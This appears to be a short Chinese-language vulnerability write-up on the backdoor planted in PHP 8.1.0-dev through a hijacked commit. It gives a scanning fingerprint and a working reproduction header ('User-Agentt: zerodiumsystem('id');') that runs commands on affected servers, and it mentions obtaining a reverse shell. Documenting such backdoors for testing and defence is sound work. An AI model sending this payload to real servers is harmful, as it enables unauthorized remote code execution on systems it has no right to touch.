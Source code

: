 # PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

```
PHP 8.1.0-dev
```

## 网络测绘

```
"PHP/8.1.0-dev"
```

## 漏洞复现

后门为添加请求头

```plain
User-Agentt: zerodiumsystem('id');
```

- 是 User-Agentt 不是 User-Agent



![](./images/202202091309632.png)

反弹shell

![](./images/202202091310034.png)